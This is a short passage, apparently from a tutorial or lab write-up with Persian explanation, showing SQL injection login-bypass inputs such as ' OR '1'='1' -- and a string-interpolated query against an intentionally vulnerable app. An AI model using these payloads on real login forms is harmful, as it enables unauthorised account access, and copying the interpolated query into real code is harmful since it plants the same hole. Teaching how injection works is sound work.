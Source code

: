 ```
admin' --
123
```

```
' OR '1'='1' --
123
```

' - اولین تک کوتیشن، رشته ورودی را می‌بندد

OR '1'='1' - یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)

-- - یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد

نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).

```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```
